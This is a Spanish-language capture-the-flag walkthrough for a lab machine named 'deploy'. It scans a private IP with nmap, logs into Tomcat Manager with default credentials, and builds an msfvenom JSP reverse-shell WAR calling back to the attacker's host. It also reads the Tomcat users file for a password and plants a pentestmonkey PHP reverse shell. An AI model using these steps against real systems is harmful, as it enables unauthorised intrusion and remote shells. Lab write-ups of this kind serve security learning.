


# Máquina deploy

### Reconocimiento de la Ip de la máquina víctima

### Puertos abiertos

sudo nmap -sS --min-rate 6000 -p- --open -vvv -Pn 192.168.42.166

### Servicios y versiones 

sudo nmap -sV --script vuln -p22,80,8080 --min-rate 6000 -vvv 192.168.42.166

### Entramos en la web

### Explotación

Entramos en manager webapp

con las credenciales

tomcat:s3cret

en Kali generamos un reverseshell con msfvenom llamado reverse.war:

msfvenom -p java/jsp_shell_reverse_tcp LHOST=192.168.42.133 LPORT=443 -f war -o reverse.war

lo subimos en:

nos ponemos en escucha con netcat en el puerto 443 y en la web le damos clic en :

vemos otros usuarios

analizamos el archivo: /etc/tomcat9/tomcat-users.xml

encontramos la contraseña de sa

nos conectamos por ssh con el usuario sa:

creamos un archivo reverse.php en /var/www/html con el código de pentestmonkey

nos ponemos en escucha con el puerto 4444

y accedemos a http://192.168.42.166/reverse.php

accedimos con el usuario toor

### Escalar privilegios

### user.txt

### root.txt

